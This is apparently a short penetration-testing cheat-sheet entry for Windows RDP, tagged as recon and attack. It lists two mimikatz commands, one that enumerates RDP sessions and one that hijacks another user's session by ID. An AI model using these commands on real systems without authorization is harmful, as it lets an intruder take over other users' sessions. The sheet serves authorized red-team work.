 # windows
% rdp, windows, 3389
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/RECON 

# powershell
% rdp, windows, 3389
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/RECON  #tag/powershell 

# mimikatz

% mimikatz, passwords
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/ATTACK/HIJACK


% mimikatz, rdp

## rdp - List sessions 
```
ts::sessions
```

## rdp - Hijack session 
```
ts::remote /id:<id>
```
